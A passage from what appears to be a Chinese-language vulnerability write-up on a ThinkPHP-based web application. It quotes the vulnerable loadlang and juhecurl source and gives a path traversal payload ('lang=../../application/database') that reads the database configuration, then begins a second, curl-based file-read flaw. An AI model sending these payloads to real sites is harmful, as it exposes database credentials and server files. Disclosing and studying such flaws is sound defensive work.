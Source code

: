 **进入到了 /common/controller/Api.php 的loadlang中，直接调用Load函数包含../lang/xxx.php 文件**  
```
/**
* 加载语言文件
* @param string $name
*/
protected function loadlang($name)
{
  $name =  Loader::parseName($name);
  Lang::load(APP_PATH . $this->request->module() . '/lang/' . $this->request->langset() . '/' . str_replace('.', '/', $name) . '.php');
}
```  
  
**所以我们只需要传入lang=../../application/database 即可跨目录读取数据库文件.**  
  
**Payload:**  
```
/index/ajax/lang?lang=../../application/database
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fyFvsrEYwPK2hEBC9hakKbDkiaSaxTpaoDJOpF968o16rou4vwGbRb6RhNCU8YJC4AZticw8sAlT9Q/640?wx_fmt=other&from=appmsg "")  
## 0x02 前台任意文件读取漏洞  
##   
  
**位于 /api/controller/Ems.php 控制器中的 juhecurl 方法存在curl_exec函数，且传参url可控，并且支持POST发包请求，导致漏洞产生.**  
```
/**
* 请求接口返回内容
* @param  string $url [请求的URL地址]
* @param  string $params [请求的参数]
* @param  int $ipost [是否采用POST形式]
* @return  string
*/
function juhecurl($url,$params=false,$ispost=0){
  $httpInfo = array();
  $ch = curl_init();
  curl_setopt( $ch, CURLOPT_HTTP_VERSION , CURL_HTTP_VERSION_1_1 );
  curl_setopt( $ch, CURLOPT_USERAGENT , 'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.22 (KHTML, like Gecko) Chrome/25.0.1364.172 Safari/537.22' );
  curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT , 30 );
  curl_setopt( $ch, CURLOPT_TIMEOUT , 30);
  curl_setopt( $ch, CURLOPT_RETURNTRANSFER , true );
  if( $ispost )
  {
    curl_setopt( $ch , CURLOPT_POST , true );
    curl_setopt( $ch , CURLOPT_POSTFIELDS , $params );
    curl_setopt( $ch , CURLOPT_URL , $url );
  }
  else
  {
    if($params){
      curl_setopt( $ch , CURLOPT_URL , $url.'?'.$params );
    }else{
      curl_setopt( $ch , CURLOPT_URL , $url);
    }
  }
  $response = curl_exec( $ch );
  if ($response === FALSE) {
    //echo "cURL Error: " . curl_error($ch);
    return false;
  }
  $httpCode = curl_getinfo( $ch , CURLINFO_HTTP_CODE );
  $httpInfo = array_merge( $httpInfo , curl_getinfo( $ch ) );
  curl_close( $ch );
```